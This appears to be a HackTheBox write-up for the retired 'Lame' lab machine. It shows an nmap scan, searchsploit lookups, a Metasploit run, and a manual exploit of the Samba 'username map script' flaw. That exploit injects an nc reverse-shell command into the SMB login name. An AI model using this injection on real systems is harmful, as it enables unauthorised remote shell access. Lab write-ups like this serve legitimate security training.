










## HackTheBox Write-Up — Lame

*This is the write-up of the Machine [LAME](https://www.hackthebox.eu/home/machines/profile/1) from [HackTheBox](https://www.hackthebox.eu/).*

## DIGEST

Lame is a beginner-friendly machine based on a Linux platform. It was the first machine from HTB.Use the samba username map script vulnerability to gain user and root.
>  Machine Author: [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>  Machine Type: Linux
>  Machine Level: 2.7/10

## Know-How

* Nmap

* Searchsploit

## Absorb Skills

* [CVE-2007–2447](http://cvedetails.com/cve/cve-2007-2447)

* Samba “username map script” Command Execution

## Scanning the Network

    $nmap -sC -sV 10.10.10.3

## Vulnerable Ftp

    searchsploit vsftpd 2.3.4

I tried to execute the exploit but it failed every time :(

## Vulnerable Samba

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default “username map script” configuration option. By specifying a username containing shell mmeta characters attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames pbeforeauthentication!.

    $searchsploit Samba 3.0.20

## Exploiting the Server

    msf5 >use exploit/multi/samba/usermap_script
    
    set RHOSTS 10.10.10.3
    exploit

## Manual Exploit Without Metasploit

    logon “./=`nohup nc -e /bin/bash 10.10.14.7 4444`"

* logon:- it is used to login into smb

* nohup:-run a command immune to hangups, with output to a non-tty

## OWN USER

User makis have the user.txt

## OWN ROOT

